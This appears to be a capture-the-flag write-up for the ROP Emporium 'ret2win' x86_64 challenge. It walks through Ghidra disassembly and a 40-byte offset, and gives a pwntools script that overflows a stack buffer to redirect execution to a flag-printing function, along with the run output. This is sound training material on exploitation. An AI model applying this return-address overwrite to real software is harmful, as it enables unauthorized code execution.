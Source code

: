 # ret2win Writeup

## Steps:
1. Run ret2win
```
$ ./ret2win 
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> AAAA
Thank you!

Exiting
```

2. Analyze in ghidra. Notice function ret2win (we want to jump here to print the flag)
```
void ret2win(void)

{
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}

                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined ret2win()
             undefined         <UNASSIGNED>   <RETURN>
                             ret2win                                         XREF[2]:     0040098c, 00400a70(*)  
        00400756 55              PUSH       RBP
        00400757 48 89 e5        MOV        RBP,RSP
        0040075a bf 26 09        MOV        EDI,s_Well_done!_Here's_your_flag:_00400926      = "Well done! Here's your flag:"
                 40 00
        0040075f e8 ec fd        CALL       <EXTERNAL>::puts                                 int puts(char * __s)
                 ff ff
        00400764 bf 43 09        MOV        EDI,s_/bin/cat_flag.txt_00400943                 = "/bin/cat flag.txt"
                 40 00
        00400769 e8 f2 fd        CALL       <EXTERNAL>::system                               int system(char * __command)
                 ff ff
        0040076e 90              NOP
        0040076f 5d              POP        RBP
        00400770 c3              RET

```
2. Determine the distance to the return. `0x28` means we need `40 bytes` of garbage to reach the return pointer
> Information provided in instructions: It's worth confirming this before each challenge but typically you'll need 40 bytes of garbage to reach the saved return address in the x86_64 binaries, 44 bytes in the x86 binaries and around 36 bytes in the ARMv5 & MIPS binaries. 
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined pwnme()
             undefined         <UNASSIGNED>   <RETURN>
             undefined1        Stack[-0x28]:1 local_28                                XREF[2]:     004006f0(*), 
                                                                                                   00400733(*)  
                             pwnme                                           XREF[3]:     main:004006d2(c), 00400984, 
                                                                                          00400a50(*)  
        004006e8 55              PUSH       RBP
```

3. Create the payload ~ 40 bytes of garbage then new address to jump to
```
from pwn import *

p = process('./ret2win')

context.bits=64

addr = 0x00400757

payload = b"A" * 40
payload += p64(addr)

p.sendline(payload)

p.interactive()
```

## Solution:
```
$ python3 exploit.py
[+] Starting local process './ret2win': pid 12494
[*] Switching to interactive mode
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$ exit
[*] Process './ret2win' stopped with exit code 0 (pid 12494)
[*] Got EOF while sending in interactive
```
